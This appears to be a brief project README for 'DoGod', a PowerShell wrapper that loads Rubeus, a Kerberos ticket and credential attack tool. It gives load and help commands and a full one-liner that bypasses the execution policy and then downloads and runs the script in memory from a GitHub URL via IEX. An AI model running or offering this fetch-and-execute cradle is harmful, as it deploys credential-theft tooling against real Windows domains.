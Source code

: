 # DoGod
*Rubeus wrapped in PowerShell*

import-module ./DoGod.ps1 ---> Loads Rubeus

DogGod ---> Rubeus native help menu

Use Onscreen Instructions for DoGod syntax!

IEX:

Set-ExecutionPolicy Bypass -Scope Process -Force; [System.Net.ServicePointManager]::SecurityProtocol = [System.Net.ServicePointManager]::SecurityProtocol -bor 3072; iex ((New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/IAMinZoho/DoGod/main/DoGod.ps1'))
